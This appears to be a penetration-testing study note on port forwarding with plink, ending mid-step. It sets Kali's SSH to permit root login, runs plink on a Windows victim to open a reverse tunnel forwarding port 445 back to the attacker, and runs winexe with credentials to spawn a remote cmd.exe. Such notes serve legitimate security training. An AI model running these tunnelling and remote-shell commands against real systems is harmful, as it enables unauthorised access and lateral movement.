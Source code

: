 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Transfer to vic:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[4._File Transfers#Certutil]]

on Kali:
```bash - kali
apt install ssh
```

```bash - kali
mousepad /etc/ssh/sshd_config
```

Change line 33 to:

PermitRootLogin yes

![[Pasted image 20220203142521.png]]

> ALSO, if not working, try changing port to something other than 22 on line 14, then restarting ssh service.

```bash - kali
service ssh restart
```

```command prompt - windows
plink.exe -l kali -pw kali -R 445:127.0.0.1:445 $KALI -P 22
```

Now you'll see you're back in your Kali box!

![[Pasted image 20220203144819.png]]

Use winexe to login through local port and spawn cmd:
```bash - kali
winexe -U $USER%$PASSWORD //127.0.0.1 "cmd.exe"
```

Hit enter a few times:
